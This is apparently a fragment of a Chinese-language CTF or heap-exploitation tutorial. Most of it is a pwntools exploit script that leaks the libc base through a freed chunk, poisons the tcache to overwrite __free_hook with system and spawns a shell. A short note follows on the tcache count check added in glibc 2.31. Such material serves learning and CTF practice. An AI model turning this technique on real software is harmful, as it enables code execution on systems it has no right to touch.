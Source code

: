 ```
    p.sendline(b'2')
    p.recvuntil(b'idx? ')
    p.sendline(str(idx))

def show(idx):
    p.recvuntil('>>')
    p.sendline(b'3')
    p.recvuntil(b'idx? ')
    p.sendline(str(idx))

def edit(idx,content):
    p.recvuntil('>>')
    p.sendline(b'4')
    p.recvuntil(b'idx? ')
    p.sendline(str(idx))
    p.recvuntil('content : ')
    p.send(content)

add(0,0x410)
add(1,0x10)
add(2,0x10)
delete(0)
show(0)

libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-96-0x10-libc.symbols['__malloc_hook']

system = libc_base+libc.symbols['system']
print('libc_base-->'+hex(libc_base))
free_hook  = libc_base+libc.symbols['__free_hook']
delete(1)
delete(2)
edit(2,p64(free_hook))
add(3,0x50)
add(4,0x50)
edit(4,p64(system))
add(5,0x30)
edit(5,b'/bin/sh\x00')
delete(5)
p.interactive()

```

## 2.31版本

新增了 Tcache Bin Count 检测，程序会检测 mp_.tcache_count ，如果数量不对则会报错退出

让我们观察一下`_int_free`中的tcache操作：

```
size_t tc_idx = csize2tidx (size);

if (tcache &&
    tc_idx < mp_.tcache_bins &&
    tcache->counts[tc_idx] < mp_.tcache_count)
{
    tcache_put (p, tc_idx);
    return;
}
```
